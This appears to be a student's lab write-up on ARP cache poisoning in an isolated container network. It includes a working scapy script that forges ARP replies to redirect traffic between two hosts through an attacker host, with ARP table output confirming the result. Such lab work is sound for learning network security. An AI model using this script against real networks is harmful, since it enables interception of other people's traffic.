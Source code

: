 ### Task 2.1: Launch the ARP cache poisoning attack
I first ensured that host A had an ARP cache entry for host B and vice versa. Then, I used the following scapy python script to maliciously overwrite the entries with host M's MAC address:
```python3
#!/usr/bin/env python3
from scapy.all import *

M_mac, M_ip = ("02:42:0a:09:00:69", "10.9.0.105")
A_mac, A_ip = ("02:42:0a:09:00:05", "10.9.0.5")
B_mac, B_ip = ("02:42:0a:09:00:06", "10.9.0.6")
broad_mac = "ff:ff:ff:ff:ff:ff"

#send an ARP request to A associating M's MAC address to B's IP address
E = Ether(dst=A_mac, src=M_mac)
A = ARP()
A.op = 2 #1 for ARP request; 2 for ARP reply
A.hwsrc = M_mac
A.psrc = B_ip
A.hwdst = A_mac
A.pdst = A_ip
sendp(E/A)

#send an ARP request to B associating M's MAC address to A's IP address
E = Ether(dst=B_mac, src=M_mac)
A = ARP()
A.op = 2 #1 for ARP request; 2 for ARP reply
A.hwsrc = M_mac
A.psrc = A_ip
A.hwdst = B_mac
A.pdst = B_ip
sendp(E/A)
```

We can now see the respective ARP tables for hosts A and B:
```shell
root@9cd27edc87ad:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.1                 ether   02:42:31:62:85:b3   C                     eth0
10.9.0.5                 ether   02:42:0a:09:00:69   C                     eth0

root@ef3a05ea874d:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   02:42:0a:09:00:69   C                     eth0
10.9.0.1                 ether   02:42:31:62:85:b3   C                     eth0
```

### Task 2.2: Testing
We first turn off ip forwarding for host M. We then send a ping request from A to B. Below is the wireshark packet capture:
![image](https://github.com/user-attachments/assets/02924e41-eb9f-463f-ab87-c1adb7a9bc4f)
In summary, the ping requests fail, and eventually host A sends out an ARP request to host B who replies with their correct ip address, and the pings begin to succeed.
